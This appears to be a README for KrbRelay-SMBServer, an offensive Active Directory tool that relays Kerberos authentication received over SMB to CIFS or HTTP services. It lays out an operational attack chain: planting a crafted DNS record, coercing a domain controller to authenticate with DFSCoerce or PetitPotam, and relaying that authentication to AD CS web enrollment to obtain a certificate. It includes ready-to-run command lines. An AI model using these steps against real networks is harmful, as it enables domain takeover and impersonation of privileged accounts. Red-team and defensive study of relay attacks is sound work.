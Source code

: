 # KrbRelay-SMBServer

This version of Krbrelay is intended to act as an SMBServer (instead of DCOM) and relay the kerberos AP-REQ to CIFS or HTTP.<br>
90% of code is taken from the great KrebRelay tool: https://github.com/cube0x0/KrbRelay<br><br>
To have control over SPN, which is mandatory for relaying Kerberos, in this case we need to use James Forshaw  *CredMasrhalTargetInfo()*  trick documented here: https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html<br><br>
All you need is to create a DNS entry with the name of the target server you want relay in the form: *<server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAA* and map it to the ip address of your listening machine.<br>Normally domain users can perform DNS secure updates.
You can use powershell script *invoke-dnsupdate* (https://github.com/Kevin-Robertson/Powermad) for adding a DNS entry<br><br>
You need to trigger the authentication with a third-party tool, for example  DFSCoerce https://github.com/Wh04m1001/DFSCoerce,  PetitPotam https://github.com/topotam/PetitPotam , etc...<br><br>
Given that SMB port is 445 you have two options on the Windows attacker machine:<br>
* use a Linux box acting as redirector
* disable the SERVER serice on your Windows machine
<br><br>
### Examples

````
# Relay the DC SMB authentication to HTTP (ADCS) web enrollment and request client certificate using a socat redirector lsitening on port 9999:<br>
krbRelay.exe -spn http/adcs-mylab.mylab.local -redirecthost adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv  -adcs DomainController -listenerport 9999<br>
In another window:
DFSCoerce.exe -l adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  -t DC-2
(https://github.com/decoder-it/DFSCoerce-exe-2)

# special command line swicthes:
-listener: relay listener port
-redirector: relay server mapped to the sepcial DNS entry <server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAA
For detailed usage and command line switches refer to original krbleay tool
